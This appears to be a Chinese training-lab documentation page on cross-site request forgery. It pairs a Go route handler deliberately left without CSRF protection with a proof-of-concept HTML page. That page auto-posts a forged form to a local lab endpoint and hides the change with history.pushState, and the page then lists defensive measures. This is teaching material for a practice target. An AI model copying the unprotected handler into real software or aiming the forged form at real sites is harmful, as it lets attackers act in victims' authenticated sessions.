 ```yaml
---
sidebar_position: 1
---
```


# 没有保护的表单

> 跨站点请求伪造（也称为CSRF）是一种网络安全漏洞，允许攻击者诱导用户执行他们不打算执行的操作。它允许攻击者部分规避同源策略，该策略旨在防止不同的网站相互干扰。
>
> 在成功的CSRF攻击中，攻击者导致受害者用户无意中执行操作。例如，更改他们帐户上的电子邮件地址，更改密码或进行资金转账。根据操作的性质，攻击者可能完全控制用户的帐户。如果受损用户在应用程序中具有特权角色，那么攻击者可能能够完全控制应用程序的所有数据和功能。



利用用户在已认证的会话中执行未经授权的操作。攻击者欺骗用户通过激活他们访问过的受信任网站上的链接或点击恶意广告来执行攻击。

### 示例代码：

在示例代码中，`/csrf/unsafe` 路径代表一个没有适当保护的表单，使得攻击者可以伪装用户的请求并执行未经授权的操作。

```Go
var router = s.router
csrfGroup := router.PathPrefix("/csrf").Name("表单 CSRF 保护测试").Subrouter()
csrfRoutes := []*VulInfo{
        {
                DefaultQuery: "",
                Path:         "/unsafe",
                Title:        "没有保护的表单",
                Handler: func(writer http.ResponseWriter, request *http.Request) {
                        if !cookieCheck(writer, request, "/csrf/unsafe") {
                                return
                        }
                        data := map[string]string{
                                "Info": info,
                        }
                        updateInfo(writer, request, data, string(unsafeUpdate))
                },
        },
```

### 攻击示例：

攻击者会构造一个恶意网页，其中包含一个表单元素和一段 JavaScript 代码。

用户在访问恶意网页后，可能被误导为点击 "Submit request" 按钮。这将导致浏览器向目标 `/csrf/unsafe` 路径发送 POST 请求，携带了被篡改的 `info` 数据。

```HTML
<html>
<body>
<form action="http://127.0.0.1:8787/csrf/unsafe" method="POST" name="form1" enctype="application/x-www-form-urlencoded" >
<input type="hidden" name="info" value="Crackme"/>
<input type="submit" value="Submit request" />
</form>
<script>history.pushState('', '', '/');</script>
</body>
</html>
```

在表单下面，攻击者使用 JavaScript 的 `history.pushState` 方法来修改浏览器的 URL，以隐藏攻击的存在。这样用户在点击按钮时可能不会察觉到页面发生了变化。

### 防御措施：

- 使用 CSRF Token：在表单中包含一个随机生成的 CSRF 令牌，并将其与用户的会话关联起来。在提交表单时，验证令牌是否匹配会话中的令牌。这可以防止攻击者构造恶意请求，因为他们无法获取到正确的 CSRF 令牌。
- SameSite Cookie 属性：使用 SameSite 属性来设置 Cookie。将 Cookie 设置为"Strict"或"Lax"，可以限制在请求中发送 Cookie，从而降低 CSRF 攻击的风险。
- 双重提交 Cookie：在用户的 Cookie 中存储一个随机生成的令牌，然后将该令牌包含在每个表单提交中。服务器验证表单中的令牌是否与 Cookie 中的令牌匹配，以此来确认请求的合法性。
- Referer 检查：在服务器端验证请求的来源 Referer 头，但这不是一个完全可靠的方法，因为 Referer 头可以被修改。
- 使用验证码：对于关键操作，如更改密码、支付等，可以使用验证码进行验证，防止未经授权的操作。

### 靶场演示： 视频

<video
  src="/img/yaklab/csrf/01unsafe-csrf.mp4"
  loop={true}
  playsInline={true}
  controls={true}
  autoPlay={true}
  style={{ width: 890 }}
/>


